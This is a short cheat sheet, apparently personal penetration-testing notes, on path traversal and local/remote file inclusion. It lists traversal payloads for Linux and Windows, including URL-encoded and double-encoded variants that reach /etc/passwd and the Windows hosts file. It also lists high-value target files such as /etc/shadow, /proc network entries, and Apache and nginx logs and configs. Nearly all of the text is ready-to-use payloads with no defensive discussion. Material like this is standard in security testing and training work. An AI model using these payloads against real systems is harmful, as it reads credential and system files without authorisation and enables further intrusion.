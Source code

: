 # file-traversal-lfi-rfi

**Author:** Julien Bongars  
**Date:** 2025-09-26 21:58:30
**Path:**

---

## Basic Path Traversal Patterns

### Linux Systems

```
../../../etc/passwd
....//....//....//etc/passwd
..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
```

### Windows Systems

```
..\..\..\windows\system32\drivers\etc\hosts
....\\....\\....\\windows\\system32\\drivers\\etc\\hosts
..%5c..%5c..%5cwindows%5csystem32%5cdrivers%5cetc%5chosts
```

## Common Target Files

### Linux Configuration Files

```
/etc/passwd          # User accounts
/etc/shadow          # Password hashes (requires root)
/etc/group           # Groups
/etc/hosts           # Host mappings
/etc/fstab           # File systems
/etc/crontab         # Scheduled tasks
/proc/version        # Kernel version
/proc/cmdline        # Boot parameters
/proc/mounts         # Mounted filesystems
/proc/net/tcp        # Network connections
/proc/net/fib_trie   # Network routing
```

### Web Server Files

```
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/etc/apache2/apache2.conf
/etc/nginx/nginx.conf
/var/www/html/index.php
```
